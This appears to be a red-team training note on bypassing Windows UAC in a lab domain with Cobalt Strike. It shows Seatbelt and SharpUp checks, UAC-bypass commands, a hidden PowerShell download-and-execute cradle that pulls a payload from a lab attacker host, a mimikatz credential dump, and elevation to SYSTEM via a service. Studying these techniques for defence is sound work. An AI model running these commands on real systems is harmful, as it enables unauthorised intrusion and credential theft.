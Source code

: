 Veterans of Windows Vista will remember the User Account Control window that popped up every time anything wanted to perform a privileged operation. This was to prevent malicious applications from carrying out actions without the explicit consent of an admin.

By default, applications will run in a Medium Integrity context even if the user is a local administrator. **nlamb** is a member of Domain Admins and subsequently the local administrators group on wkstn-2. However, if you launch the Command Prompt "normally" and attempt to add a new local user, it will fail.

![[Pasted image 20220831121200.png]]

To run the Command Prompt in high integrity, right-click it, select "Run as Administrator" and consent to the UAC dialogue.

![[Pasted image 20220831121209.png]]

Now Command Prompt is running as an administrator (you will often see "Administrator" in the window title) and you can add the local user.

![[Pasted image 20220831121216.png]]

UAC was first introduced in Windows Vista and attracted complaints from users due to the frequency and annoyance of the popups, which led Microsoft to introduce some relaxations. These allow some of their own trusted, signed applications to "auto-elevate" without consent under certain conditions. In many ways, this decision paved the way for many of the loopholes exploited in "UAC bypasses".

The default configuration for UAC is **Prompt for consent for non-Windows binaries**, but can also have different settings such as **Prompt for credentials**, **Prompt for consent** and **Elevate without prompting**.

Seatbelt can be used to query the configuration applied to a machine.
```shell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe uac

====== UAC ======

ConsentPromptBehaviorAdmin     : 5 - PromptForNonWindowsBinaries
EnableLUA (Is UAC enabled?)    : 1
```

A UAC bypass is a technique by which an application can go from **Medium** to **High Integrity** without prompting for consent. This is not technically an EoP because Microsoft do not consider UAC to be a security boundary; and since the user has to be a local administrator, you're not gaining any privilege that the user is not already allowed to have.

Jump onto the console of **WKSTN-2** and spawn a Beacon as **nlamb**. SharpUp will tell us that we're already a local admin, so UAC can be bypassed.
```shell
beacon> getuid
[*] You are DEV\nlamb

beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== SharpUp: Running Privilege Escalation Checks ===

[*] In medium integrity but user is a local administrator- UAC can be bypassed.
```

Cobalt Strike provides two means of executing code to bypass UAC. The first is via the `elevate` command, which bootstraps a listener via the chosen technique. The second is via the `runasadmin` command, which allows you to execute any arbitrary command.
```shell
beacon> elevate uac-token-duplication tcp-4444-local
[+] Success! Used token from PID 480
[+] established link to child beacon: 10.10.17.132
```
![[Pasted image 20220831121321.png]]
```shell
beacon> runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```
```shell
05/10 18:03:39 visit (port 80) from: 10.10.17.132
    Request: GET /b
    page Scripted Web Delivery (powershell)
    null
```
```shell
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.132
```

Not all UAC bypasses are created equal - some have "quirks" that you need to be aware of. Seatbelt's `TokenPrivileges` command can list the current token's privileges . A high integrity process may look something like this:

```shell
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

                     SeIncreaseQuotaPrivilege:  DISABLED
                          SeSecurityPrivilege:  DISABLED
                     SeTakeOwnershipPrivilege:  DISABLED
                        SeLoadDriverPrivilege:  DISABLED
                     SeSystemProfilePrivilege:  DISABLED
                        SeSystemtimePrivilege:  DISABLED
              SeProfileSingleProcessPrivilege:  DISABLED
              SeIncreaseBasePriorityPrivilege:  DISABLED
                    SeCreatePagefilePrivilege:  DISABLED
                            SeBackupPrivilege:  DISABLED
                           SeRestorePrivilege:  DISABLED
                          SeShutdownPrivilege:  DISABLED
                             SeDebugPrivilege:  SE_PRIVILEGE_ENABLED
                 SeSystemEnvironmentPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                    SeRemoteShutdownPrivilege:  DISABLED
                            SeUndockPrivilege:  DISABLED
                      SeManageVolumePrivilege:  DISABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                          SeTimeZonePrivilege:  DISABLED
                SeCreateSymbolicLinkPrivilege:  DISABLED
    SeDelegateSessionUserImpersonatePrivilege:  DISABLED
```

A high integrity session gained using Token Duplication looks like this:
```shell
====== TokenPrivileges ======

Current Token's Privileges

                          SeShutdownPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                            SeUndockPrivilege:  DISABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED
                          SeTimeZonePrivilege:  DISABLED
```

and this will cause actions that require privileged access to still fail.
```shell
beacon> logonpasswords
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 296058 bytes
[+] received output:
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

So even though we're in a high integrity session, we really can't do much. `elevate svc-exe` can be used to execute another Beacon as SYSTEM by utilising the Service Control Manager.
```shell
beacon> elevate svc-exe tcp-4444-local
Started service 96d0481 on .
[+] established link to child beacon: 10.10.17.132
```
![[Pasted image 20220831121454.png]]

This Beacon will have the necessary token privileges to run post-ex command such as `logonpasswords`. The moral of this story is to research into the specific bypass techniques before you use them.
